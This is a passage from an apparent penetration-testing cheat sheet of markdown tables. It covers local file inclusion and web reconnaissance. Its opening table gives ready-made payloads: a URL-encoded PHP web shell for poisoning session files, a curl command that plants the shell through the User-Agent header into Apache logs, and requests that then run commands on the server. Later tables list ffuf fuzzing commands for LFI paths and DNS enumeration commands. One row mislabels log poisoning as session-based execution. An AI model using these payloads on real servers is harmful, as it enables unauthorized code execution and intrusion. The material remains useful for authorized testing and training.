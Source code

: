 | Payload | Description |
|---------|-------------|
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` | Read PHP session parameters |
| `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E` | Poison PHP session with web shell |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id` | RCE through poisoned PHP session |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'` | Poison server log |
| `/index.php?language=/var/log/apache2/access.log&cmd=id` | RCE through poisoned PHP session |

## Misc

| Command | Description |
|---------|-------------|
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287` | Fuzz page parameters |
| `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287` | Fuzz LFI payloads |
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287` | Fuzz webroot path |
| `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287` | Fuzz server configurations |

# Web Enumeration

## General Commands

| Command | Description |
|---------|-------------|
| `export TARGET="domain.tld"` | Assign target to an environment variable. |
| `whois $TARGET` | WHOIS lookup for the target. |

## DNS Enumeration

| Command | Description |
|---------|-------------|
| `nslookup $TARGET` | Identify the A record for the target domain. |
| `nslookup -query=A $TARGET` | Identify the A record for the target domain. |
| `dig $TARGET @<nameserver/IP>` | Identify the A record for the target domain. |
| `dig a $TARGET @<nameserver/IP>` | Identify the A record for the target domain. |
| `nslookup -query=PTR <IP>` | Identify the PTR record for the target IP address. |
| `dig -x <IP> @<nameserver/IP>` | Identify the PTR record for the target IP address. |
| `nslookup -query=ANY $TARGET` | Identify ANY records for the target domain. |
| `dig any $TARGET @<nameserver/IP>` | Identify ANY records for the target domain. |
| `nslookup -query=TXT $TARGET` | Identify the TXT records for the target domain. |
| `dig txt $TARGET @<nameserver/IP>` | Identify the TXT records for the target domain. |
| `nslookup -query=MX $TARGET` | Identify the MX records for the target domain. |
| `dig mx $TARGET @<nameserver/IP>` | Identify the MX records for the target domain. |
